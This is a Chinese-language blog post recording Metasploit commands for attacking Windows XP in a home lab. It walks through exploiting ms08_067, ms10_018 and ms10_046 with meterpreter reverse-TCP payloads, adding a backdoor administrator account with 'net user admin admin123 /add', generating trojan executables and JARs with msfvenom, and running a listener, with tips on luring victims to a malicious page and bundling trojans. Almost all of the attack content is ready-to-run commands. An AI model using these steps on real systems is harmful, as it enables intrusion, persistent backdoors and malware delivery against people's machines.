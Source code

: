 ```yaml
---
title: Metasploit 的一些渗透命令记录
date: 2017-08-12 11:51:36
updated: 2017-08-12 11:51:36
tags: [网络安全]
categories: 其他
---
```

## 学黑客技术必备啊
### 简单来说，Metasploit是一款开源的安全漏洞检测工具，它本身附带一千多个渗透方式，和数百种攻击载荷
##### 来看看长啥样
![](1502693518259026341.png)

## 下面记录关于windows xp 系统的一些漏洞。进行攻击的命令记录
### 测试环境：
#### 1、kali2.0
#### 2、windows xp pro

## 1、漏洞： ms08_067 
```shell
# 可通过命令来查看详情:search ms08_067
use exploit/windows/smb/ms08_067_netapi    //使用exploit
set payload windows/meterpreter/reverse_tcp  //设置攻击载荷
show options  	//查看参数配置
set RHOST 192.168.12.131   //设置目标主机ip ，我这里的目标主机为192.168.12.131
set LHOST 192.168.12.130   //设置本机ip ，我这里的本主机为192.168.12.130
set target 0        //这个设置自动
run  //开始攻击
# 获取到反弹的shell
shell   //进入对方电脑的终端
```
## 2、漏洞 ms10_018（浏览器提权）
```shell
# 同样的我们看看这个漏洞(搜索)：search ms10_018
use exploit/windows/browser/ms10_018_ie_behaviors    //使用exploit
set payload windows/meterpreter/reverse_tcp  //设置攻击载荷
show options  	//查看参数配置
set SRVHOST 192.168.12.130   //设置服务器主机ip ，我这里的目标主机为192.168.12.130
set LHOST 192.168.12.130   //设置本机ip ，我这里的本主机为192.168.12.130
set URIPATH test        //这个设置项目名为test
exploit  //开始渗透		
# 等待目标访问我们的网页，或者引诱目标访问我们的网页
# 获取到session(当出现类似： Successfully migrated to services.exe (680) 这样就是成功了)
sessions -i //查看 session
session -i 1 //选择id ，1就是id
# 获得shell
# 可以在对方的系统上添加一个管理员权限：命令如下
net user admin admin123 /add //这条命令的意思是新建一个用户admin,密码为admin123
net localgroup administrators admin /add //这条命令的意思是吧admin 添加到管理员组
```

## 3、漏洞 ms10_046（快捷方式漏洞）
```shell
# 同样的我们看看这个漏洞(搜索)：search ms10_046
use exploit/windows/browser/ms10_046_shortcut_icon_dllloader    //使用exploit
set payload windows/meterpreter/reverse_tcp  //设置攻击载荷
show options  	//查看参数配置
set SRVHOST 192.168.12.130   //设置服务器主机ip ，我这里的目标主机为192.168.12.130
set LHOST 192.168.12.130   //设置本机ip ，我这里的本主机为192.168.12.130
run        //开始渗透	
exploit	
# 等待目标访问我们的网页，或者引诱目标访问我们的网页(或者http://192.168.12.130:80/) 或者文件夹里访问：\\192.168.12.130\ILSSNnFb\ 
# 获取到session(当出现类似： Successfully migrated to services.exe (680) 这样就是成功了)
sessions -l //查看 session
session -i 1 //选择id ，1就是id
# 获得shell
# 可以在对方的系统上添加一个管理员权限：命令如下
net user admin admin123 /add //这条命令的意思是新建一个用户admin,密码为admin123
net localgroup administrators admin /add //这条命令的意思是吧admin 添加到管理员组
```

> #### 当我们没有发现漏洞的时候，我们就可以利用木马进行攻击了。但是现在的杀毒软件挺成熟的，普通生成的木马容易被发现，所有我们要做的事学会免杀，或者可以和其他软件进行捆绑。
> #### 免杀是一门高级的学问，在这里就不再讲述了，下面介绍的是用msfvenom 生成木马。

## 4、木马生成
```shell
# 当没有漏洞的时候，就可以使用木马来进行渗透了。
# 利用 msfvenom 工具生成木马
# -p 是设置payload, -f 是生成文件的格式 /root/muma.exe 是生成的文件名
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.12.130 LPORT=1234 -f exe > /root/muma.exe 	
# 上面是exe 的格式，java的格式如下：
msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.12.130 LPORT=1234 -f jar > /root/muma.jar
# 如果是java 下面的set payload 也要改成和生成文件的payload 的一致。
# 打开msfconsole进行监听
use exploit/multi/handler			//
set payload windows/meterpreter/reverse_tcp  //设置载荷
set LHOST 192.168.12.130   //设置本机地址
set LPORT 1234   //设置监听端口，这个和上面用msfvenom 设置的端口一致
run  //开始渗透
获取到shell
```

> 说下废话，哥当年选计算机专业，就是感觉黑客很牛掰，黑着黑那的很神奇。但是现在发现和我想的不太一样呢。没想到计算机行业有那么多分类。
> 黑客技术很高深，要好好学，研究才行，哥只是个业余的。
> 
